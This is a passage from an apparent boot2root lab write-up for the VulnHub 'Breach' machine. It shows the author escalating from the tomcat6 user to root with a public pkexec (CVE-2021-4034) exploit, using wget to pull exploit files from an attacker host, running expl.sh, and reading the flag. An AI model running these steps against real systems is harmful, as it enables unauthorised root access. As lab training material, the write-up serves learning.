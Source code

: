```bash
/usr/lib/authbind/helper
/usr/sbin/uuidd
/usr/sbin/pppd
tomcat6@Breach:/$ which gcc
/usr/bin/gcc
tomcat6@Breach:/$ pkexec --version
pkexec version 0.105
tomcat6@Breach:/$ cd /tmp
tomcat6@Breach:/tmp$
```
{: .nolineno}
{: .nolineno}

I used this [exploit](https://github.com/mebeim/CVE-2021-4034) for pkexec exploitation and tranfered all the files into victim machine →

```bash
tomcat6@Breach:/tmp$ wget http://192.168.110.3/fake_module.c
--2023-10-05 10:47:37--  http://192.168.110.3/fake_module.c
Connecting to 192.168.110.3:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 576 [text/x-csrc]
Saving to: ‘fake_module.c’

 0% [                                       ] 0           --.-K100%[======================================>] 576         --.-K/s   in 0.001s  

2023-10-05 10:47:37 (391 KB/s) - ‘fake_module.c’ saved [576/576]

tomcat6@Breach:/tmp$ ls
expl.sh  fake_module.c	helper.c  hsperfdata_tomcat6  tomcat6-tomcat6-tmp
tomcat6@Breach:/tmp$ chmod +x *
tomcat6@Breach:/tmp$ ./expl.sh 
Pwned!
# /bin/bash -i
root@Breach:/tmp# whoami
root
root@Breach:/tmp# id
uid=0(root) gid=0(root) groups=0(root),112(tomcat6)
root@Breach:/tmp# cd /root
root@Breach:/root# ls -al
total 60
drwx------  4 root root  4096 Jun 12  2016 .
drwxr-xr-x 22 root root  4096 Jun  4  2016 ..
-rw-------  1 root root   115 Jun 12  2016 .bash_history
-rw-r--r--  1 root root  3106 Feb 19  2014 .bashrc
drwx------  2 root root  4096 Jun  6  2016 .cache
-rw-r--r--  1 root root   840 Jun 11  2016 .flag.txt
-rw-r--r--  1 root root   140 Feb 19  2014 .profile
drwxr-xr-x  2 root root  4096 Jun  5  2016 .rpmdb
-rw-r--r--  1 root root    66 Jun  4  2016 .selected_editor
-rw-r--r--  1 root root 23792 Jun  4  2016 flair.jpg
root@Breach:/root# cat .flag.txt 
-----------------------------------------------------------------------------------

______                     _     __   _____      _____ _          _____          _ 
| ___ \                   | |   /  | |  _  |    |_   _| |        |  ___|        | |
| |_/ /_ __ ___  __ _  ___| |__ `| | | |/' |______| | | |__   ___| |__ _ __   __| |
| ___ \ '__/ _ \/ _` |/ __| '_ \ | | |  /| |______| | | '_ \ / _ \  __| '_ \ / _` |
| |_/ / | |  __/ (_| | (__| | | || |_\ |_/ /      | | | | | |  __/ |__| | | | (_| |
\____/|_|  \___|\__,_|\___|_| |_\___(_)___/       \_/ |_| |_|\___\____/_| |_|\__,_|

'-----------------------------------------------------------------------------------
Congrats on reaching the end and thanks for trying out my first #vulnhub boot2root!
```